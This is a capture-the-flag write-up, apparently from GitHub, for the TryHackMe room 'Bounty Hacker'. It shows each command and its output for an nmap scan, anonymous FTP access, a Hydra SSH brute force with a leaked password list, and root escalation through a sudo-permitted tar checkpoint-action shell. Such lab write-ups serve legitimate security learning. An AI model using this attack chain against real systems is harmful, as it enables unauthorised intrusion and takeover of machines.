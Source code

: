 # Bounty Hacker

TryHackMe room link : [Bounty Hacker](https://tryhackme.com/room/cowboyhacker)

## Nmap

`nmap -T 4 -sV 10.10.38.76`

```

Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-26 14:17 EDT
Nmap scan report for 10.10.38.76
Host is up (0.22s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.72 seconds
```

## FTP

lets try anonymous login in ftp

`ftp 10.10.38.76`

```

Connected to 10.10.38.76.
220 (vsFTPd 3.0.3)
Name (10.10.38.76:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.

ftp> get locks.txt
local:locks.txt remote: locks.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
226 Transfer complete.
418 bytes received in 0.00 secs (2.9749 MB/s)

ftp> get task.txt
local:task.txt remote: task.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.00 secs (77.7591 kB/s)
```

lets read task.txt

```

1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
lets read locks.txt

**`locks.txt` seems to be containing list of passwords, lets try it to gain ssh access for `lin`**

## Hydra

`hydra -l lin -P locks.txt 10.10.38.76 ssh`

```

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-06-26 15:10:40
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.38.76:22/

[22][ssh] host: 10.10.38.76   login: lin   password: *****************

1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-06-26 15:10:56
```

lets use above credentials to gain ssh access

## SSH

`ssh lin@10.10.38.76`

```

The authenticity of host '10.10.38.76 (10.10.38.76)' can't be established.
ECDSA key fingerprint is SHA256:fzjl1gnXyEZI9px29GF/tJr+u8o9i88XXfjggSbAgbE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.38.76' (ECDSA) to the list of known hosts.
lin@10.10.38.76's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
```

```

lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt
*********************
```
lets check for sudo permission that lin have

`sudo -l`

```

Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

__use GTFOBins to search for tar__

## Privilege Escalation

```

lin@bountyhacker:/$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
******************
# 
```

